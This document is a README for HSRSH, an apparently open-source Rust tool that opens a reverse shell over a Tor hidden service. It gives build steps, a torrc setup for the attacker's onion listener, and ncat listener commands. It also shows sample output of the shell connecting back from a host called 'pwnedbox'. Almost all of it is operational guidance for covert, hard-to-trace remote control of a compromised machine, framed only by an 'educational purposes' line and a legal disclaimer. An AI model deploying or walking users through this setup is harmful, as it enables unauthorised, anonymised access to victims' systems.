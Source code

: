 # HSRSH

Hidden Service Reverse Shell, aka HSRSH

This was a quickly written tool for demonstrating a reverse shell over a hidden service all in
one binary and an excuse to play with Rust. Solely for educational purposes.

## Building

```
$ git clone https://github.com/dustyfresh/hsrsh

$ cd hsrsh

$ cargo build --release

# Release binary is ./target/release/hsrsh
```


1. Configure your hidden service server you will be accepting the shell connection on. Make sure netcat is installed, and add this to your ```torrc```, and then start tor

  ```
    HiddenServiceDir /var/lib/tor/hidden_service/
    HiddenServicePort 1337 127.0.0.1:1337
  ```
  Once Tor is bootstrapped you can get the onion address from the hidden service directory

  ```
  $ cat /var/lib/tor/hidden_service/
  changeme.onion
  ```

2. Edit ```src/main.rs``` and add your onion address to the ```ONION_LISTENER``` variable

3. Start listener on the hidden service using ```ncat```. MAKE SURE TO ONLY ALLOW LOCALHOST CONNECTIONS

  ```
    user@localhost:~$ ncat --allow 127.0.0.1 -nvl 127.0.0.1 -p 1337
    Ncat: Listening on 0.0.0.0:1337
  ```

4. Execute reverse shell binary, it will create a local tor instance and connect to your listener. This takes about 15 seconds.
    ```
    user@pwnedbox:~$ ./hsrsh
    ```

5. If everything is setup properly your shell should connect after about 20 seconds or so assuming the tor and internet connection is stable.

  ```    
    user@localhost:~$ ncat --allow 127.0.0.1 -nvlp 1337
    Ncat: Version 7.60 ( https://nmap.org/ncat )
    Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
    Ncat: Listening on :::1337
    Ncat: Listening on 0.0.0.0:1337
    Ncat: Connection from 127.0.0.1.
    Ncat: Connection from 127.0.0.1:45964.
    user@pwnedbox:~$ uptime
     13:37:02 up 16 days, 46 min,  1 user,  load average: 0.82, 0.93, 1.43
  ```

To do:
  - support tls
  - windows support
  - Better / more Rust-like error handling

Things that I read that helped me out a lot with this:
- https://github.com/isdrupter/onionslicer
- https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python

## Disclaimer
This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License v3.0 for more details at http://www.gnu.org/licenses/gpl-3.0.html.

Usage of hsrsh for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

